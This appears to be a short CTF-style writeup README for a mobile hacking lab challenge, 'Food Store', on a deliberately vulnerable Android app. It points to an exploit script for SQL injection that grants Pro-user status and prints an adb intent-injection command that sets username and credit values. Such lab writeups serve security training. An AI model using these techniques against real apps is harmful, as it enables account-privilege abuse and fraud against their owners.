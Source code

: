 # Writeup for Guess me challenge.

>here's how to use the scripts only as proof of concept.

Check the full Writeup at my blog --> [Food Store](https://blog.parad0x.vip/blog/2024/08/15/FoodStore.html)
---

## Objective
Exploit the SQL Injection vulnerability, allowing you to register as a Pro user, bypassing standard user restrictions.

## SQL injection

Just run:`./exploit.sh`
Make sure that the android device is connected and the adb is running.

![SQLi](https://parad0x-0xff.github.io/MHL/FoodStore/MHL_foodStore_4.png)

## BONUS INTENT EXPLOIT
The following command will open the app and by sending a crafted deep link

```sh
adb shell am start \
-n com.mobilehackinglab.foodstore/.MainActivity \
--es USERNAME "parad0x" \
--ei USER_CREDIT "1337"
```

![Intent Injection](https://parad0x-0xff.github.io/MHL/FoodStore/MHL_foodStore_5.png)

## Conclusion

On my blog, I'll cover all the steps, how it's possible to change the value on the screen and exploit a SQLi.
